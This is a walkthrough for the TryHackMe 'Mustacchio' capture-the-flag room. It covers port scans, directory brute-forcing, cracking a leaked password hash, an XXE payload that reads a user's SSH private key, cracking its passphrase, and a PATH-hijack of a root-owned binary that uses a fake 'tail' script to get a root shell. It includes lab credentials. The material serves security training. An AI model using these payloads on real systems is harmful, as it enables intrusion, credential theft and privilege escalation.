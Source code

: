 # Mustacchio

**Room Link:** [https://tryhackme.com/room/mustacchio](https://tryhackme.com/room/mustacchio)

### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (181).png" alt=""><figcaption></figcaption></figure>





### Scan all ports

port 8765 found which is running nginx

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (183).png" alt=""><figcaption></figcaption></figure>





### TCP/80 - HTTP

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (182).png" alt=""><figcaption></figcaption></figure>

There is a users.bak file in the custom folder

<figure><img src="../../.gitbook/assets/image (185).png" alt=""><figcaption></figcaption></figure>

It's a bit messy but it appears to be a username and password hash. I put it through crackstation

<figure><img src="../../.gitbook/assets/image (186).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (187).png" alt=""><figcaption></figcaption></figure>





### TCP/8765 - HTTP

```
gobuster dir -u http://$VICTIM:8765 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (184).png" alt=""><figcaption></figcaption></figure>





**Kali**

```
Username: admin
Password: bulldog19
```



<figure><img src="../../.gitbook/assets/image (189).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (188).png" alt=""><figcaption></figcaption></figure>



In the source code there's two interesting places to look

<figure><img src="../../.gitbook/assets/image (190).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (191).png" alt=""><figcaption></figcaption></figure>

Seems like a waste but we now know the format how to submit something on the site

<figure><img src="../../.gitbook/assets/image (192).png" alt=""><figcaption></figcaption></figure>

**Input**

```
<?xml version="1.0" encoding="UTF-8"?>
<comment>
  <name>Joe Hamd</name>
  <author>Barry Clad</author>
  <com>his paragraph was a waste of time and space. If you had not read this and I had not typed this you and I could\u2019ve done something more productive than reading this mindlessly and carelessly as if you did not have anything else to do in life. Life is so precious because it is short and you are being so careless that you do not realize it until now since this void paragraph mentions that you are doing something so mindless, so stupid, so careless that you realize that you are not using your time wisely. You could\u2019ve been playing with your dog, or eating your cat, but no. You want to read this barren paragraph and expect something marvelous and terrific at the end. But since you still do not realize that you are wasting precious time, you still continue to read the null paragraph. If you had not noticed, you have wasted an estimated time of 20 seconds.</com>
</comment>
```

<figure><img src="../../.gitbook/assets/image (193).png" alt=""><figcaption></figcaption></figure>

**Input**

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [<!ENTITY xxe SYSTEM 'file:///home/barry/.ssh/id_rsa'>]>
<comment>
  <name>Joe Hamd</name>
  <author>Barry Clad</author>
  <com>&xxe;</com>
</comment>
```

<figure><img src="../../.gitbook/assets/image (194).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (195).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (196).png" alt=""><figcaption></figcaption></figure>



**Kali**

```
python /opt/john/ssh2john.py id_rsa > hash
john --wordlist=/usr/share/wordlists/rockyou.txt hash
chmod 600 id_rsa
ssh -v -i id_rsa barry@$VICTIM
Password: urieljames
```

<figure><img src="../../.gitbook/assets/image (197).png" alt=""><figcaption></figcaption></figure>

We find a program owned by root in joes folder. When we run strings on it we can see tail command is being ran but it is not using full path so we can exploit this.

**Victim**

```
cd /home/joe
ls -lah
strings live_log
```

<figure><img src="../../.gitbook/assets/image (198).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
cd /tmp

cat > tail << EOF
> #!/bin/bash
> /bin/bash -i
> EOF
chmod +x tail

export PATH=/tmp/:$PATH
/home/joe/live_log 
```

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>



















